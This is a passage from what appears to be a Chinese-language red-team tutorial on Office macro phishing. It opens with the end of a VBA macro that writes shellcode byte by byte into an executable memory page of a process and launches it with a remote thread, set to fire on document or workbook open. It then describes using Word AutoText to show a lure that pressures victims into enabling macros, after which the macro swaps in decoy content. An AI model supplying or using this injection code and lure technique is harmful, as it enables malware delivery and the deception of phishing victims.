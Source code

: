 ```bash
        res = WriteStuff(pInfo.hProcess, rwxpage + offset, myByte, 1, ByVal 0&)
    Next offset
    res = CreateStuff(pInfo.hProcess, 0, 0, rwxpage, 0, 0, 0)
End Sub
Sub AutoOpen()
    Auto_Open
End Sub
Sub Workbook_Open()
    Auto_Open
End Sub
```

**Word 自动图文集伪装钓鱼**

利用过程是打开 Word 文档展示一个页面，诱导你开启宏，当启用后，自动会把 Word 内容删除插入图文集内容，以迷惑人员。根本上其实就是利用宏做事情。

先建立好一个正常文档，把内容全选，通过“插入 -> 文档部件 -> 自动图文集 -> 将所选内容保存到自动图文集”，英文路径是“Insert -> Quick Parts -> Auto Text -> Save Selection to AutoText Gallery”。

![保存内容到自动图文集.png](assets/1708583825-61bccfb35e063d0bf9840cfb6e505a37.png)

正常文档保存到图文集后，可以将内容删除，后面通过宏自动插入。目前需要诱导受害者开启宏，我们编辑一条文案。
